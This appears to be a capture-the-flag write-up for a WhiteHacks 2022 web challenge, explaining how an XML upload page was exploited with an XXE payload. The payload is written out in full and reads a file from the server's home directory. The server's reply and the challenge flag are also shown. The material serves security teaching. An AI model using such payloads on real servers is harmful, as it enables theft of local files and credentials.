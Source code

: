 # ransom_console-1
8 SOLVES 986 points

# DESCRIPTION
Author: Louis (l0j0)

Difficulty: Medium

Space Department has found a web server where Shadowcore, a group of ransomware operators providing Ransomware-as-a-Service in Planet X26-10EG, monitors their C2 server from.

Challenge Access:
http://challenges1.whitehacks.xyz:5001
http://challenges2.whitehacks.xyz:5001

Let's retrieve their SSH key from the home directory at /home/r4s0m_4d1m1n/flag.txt so that we can access their C2 Server directly.

# SOLUTION

When we enter this website, we see a login page. We don't get much info from developer tools either.

When we check `robots.txt`, we get

    User-agent: *
    Disallow: /upload /dashboard
    
Upon checking `/dashboard`, we see that the page doesn't exist. However, when we check `/upload`, we are redirected to a file upload page. When just uploading a random txt file, an internal server error occurs, and that we are redirected to http://challenges1.whitehacks.xyz:5001/xml-parse. From this we can infer that the website only allows us to upload an xml file. A quick google lead me to infer that this challenge involves a XML External Entity (XXE) Injection attack. Another quick google resulted in me finding [this](https://gupta-bless.medium.com/exploiting-xxe-via-file-upload-f6e62153e85d) medium article which gave me a XXE payload which lets us fetch another file in the website directory. After changing the payload to fetch the file at `/home/r4s0m_4d1m1n/flag.txt`, we get this payload:

    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/r4s0m_4d1m1n/flag.txt" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    
We upload this xml file and the website returns us this:

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="128px" height="128px" version="1.1">
      <text font-size="16" x="0" y="16">WH2022{SSH_KeY5_ST0L3n_8y_U5}</text> 
    </svg>
    
Flag:
>WH2022{SSH_KeY5_ST0L3n_8y_U5}
